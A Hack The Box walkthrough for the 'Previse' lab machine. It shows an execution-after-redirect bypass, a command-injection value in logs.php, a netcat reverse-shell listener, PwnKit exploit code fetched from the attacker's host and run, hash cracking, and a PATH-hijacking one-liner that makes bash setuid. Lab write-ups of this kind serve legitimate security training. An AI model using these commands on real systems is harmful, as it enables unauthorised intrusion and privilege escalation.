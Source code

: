 ```yaml
---
layout: single
title: Previse - Hack The Box
excerpt: "Previse is a easy machine that showcases Execution After Redirect (EAR) which allows users to retrieve the contents and make requests to `accounts.php` whilst unauthenticated which leads to abusing PHP 'exec()' function since user inputs are not sanitized allowing remote code execution against the target, after gaining a www-data shell privilege escalation starts with the retrieval and cracking of a custom MD5Crypt hash which consists of a unicode salt and once cracked allows users to gain SSH access to the target then abusing a sudo executable script which does not include absolute paths of the functions it utilises which allows users to perform PATH hijacking on the target to compromise the machine."
date: 2025-06-03
classes: wide
header:
  teaser: /img2/previse.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Web Enumeration
  - Execution After Redirect (EAR) Vulnerability - Skipping Redirects
  - PHP Source Code Analysis
  - Command Injection (RCE)
  - Information Leakage
  - Database Enumeration
  - Cracking Hashes
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - Abusing Sudoers Privilege + PATH Hijacking [Privilege Escalation] (OPTION 2)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.104
```

![](/img2/Pasted%20image%2020250603093249.png)

- Dirsearch

```bash
dirsearch -u 10.10.11.104
```

![](/img2/Pasted%20image%2020250603100111.png)

- Intercept accounts.php request and check it

![](/img2/Pasted%20image%2020250603100247.png)

> Before redirection, we can do a request to accounts.php, so let's create a valid request with POST method.

## Exploitation

- Execution After Redirect (EAR) Vulnerability - Skipping Redirects

![](/img2/Pasted%20image%2020250603100445.png)

- Download backup zip

![](/img2/Pasted%20image%2020250603100646.png)

- Check php source code

![](/img2/Pasted%20image%2020250603112333.png)

> In logs.php we can try to inject command when python execute /opt/scripts/log_process.py.

```bash
/usr/bin/python /opt/scripts/log_process.py space;whoami
```

- RCE

![](/img2/Pasted%20image%2020250603112629.png)

```bash
tcpdump -i tun0 icmp
```

![](/img2/Pasted%20image%2020250603112831.png)

- Reverse shell

![](/img2/Pasted%20image%2020250603113153.png)

```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find SUID 

```bash
find / -perm -4000 2>/dev/null
```

![](/img2/Pasted%20image%2020250603124208.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Connect to database with leaked credentials

![](/img2/Pasted%20image%2020250603114431.png)

> We can see the password and database inside config.php on backup folder

```bash
mysql -u root -p
```

- Crack MD5 hash

![](/img2/Pasted%20image%2020250603122541.png)

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250603122614.png)

- Connect to ssh

```bash
ssh m4lwhere@10.10.11.104
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250603122903.png)

- PATH Hijacking

```bash
cat /opt/scripts/access_backup.sh
```

![](/img2/Pasted%20image%2020250603123315.png)

```bash
cd /tmp && export PATH=/tmp/:$PATH && echo "chmod u+s /bin/bash" > gzip && chmod +x gzip && && sudo /opt/scripts/access_backup.sh
```

```bash
ls -l /bin/bash
```

![](/img2/Pasted%20image%2020250603123632.png)

```bash
bash -p
```


![](/img2/Pasted%20image%2020250603123055.png)